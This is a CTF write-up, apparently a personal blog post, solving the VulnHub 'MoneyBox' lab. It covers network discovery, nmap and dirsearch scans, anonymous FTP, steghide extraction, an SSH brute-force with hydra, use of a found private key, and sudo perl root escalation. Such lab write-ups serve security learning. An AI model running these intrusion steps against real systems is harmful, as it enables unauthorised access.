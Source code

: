 ```yaml
---
title: WRITE-UP MoneyBox
date: 2024-08-05 00:00:01 +0700
categories: [write up, vulnhub, red team, oscp]
tags: [vulnhub]     # TAG names should always be lowercase
---
```

# Write-Up Money_box

## 1. Enumeration
i used netdicover to see where is my lab

```terminal
sudo netdiscover
```
![alt text](/assets/img/moneybox/mbox_netdiscover.png)

ip: ```192.168.100.20```

i used nmap to see port open 

```terminal
sudo nmap -sC -sV -vvv -p- --min-rate=1000 192.168.100.20
```

*   sC : Enable default script to quick and safe
*   sV : Detect service
*   vvv : increase verbosity
*   p : port to scan "-p-" is all port 1-65535
*   min-rate=1000 : packets are sent < 1000s

![alt text](/assets/img/moneybox/mbox_nmap.png)
* 21 ```ftp```
* 80 ```http```
* 22 ```ssh```

i check ```ftp``` with ```anonymous``` user i get file is ```trytofind.jpg```

```terminal
ftp 192.168.100.20
mget * 
yes
```
![alt text](/assets/img/moneybox/mbox_ftp.png)

i check ```http``` with ```dirsearch``` and i get text is ```3xtr4ctd4t4```
```
dirsearch -u http://192.168.100.20 -e 403,404
```
![alt text](/assets/img/moneybox/mbox_dirsearch.png)
## 2. Post Exploitation
i use ```steghide``` to get file ```data.txt``` and i used password i recon in web. So i know this site using weak password with user ```renu``` and i decided ssh bruteforce with ```hydra```

```terminal
stegide --extract -sf trytofind.jpg
hydra -l renu -P /home/kali/rockyou.txt ssh://192.168.100.20
```
![alt text](/assets/img/moneybox/mbox_message.png)

## 3. Privilage Escalation
after enum i see in user ```renu``` have ```id_rsa``` and i decided ssh with ```lily``` user with id and i can go user ```lily```
![alt text](/assets/img/moneybox/mbox_gotolily.png)

i'm using ```sudo -l ``` and check with ```gtfobin```  and i can get root :3 with perl 
![alt text](/assets/img/moneybox/mbox_root.png)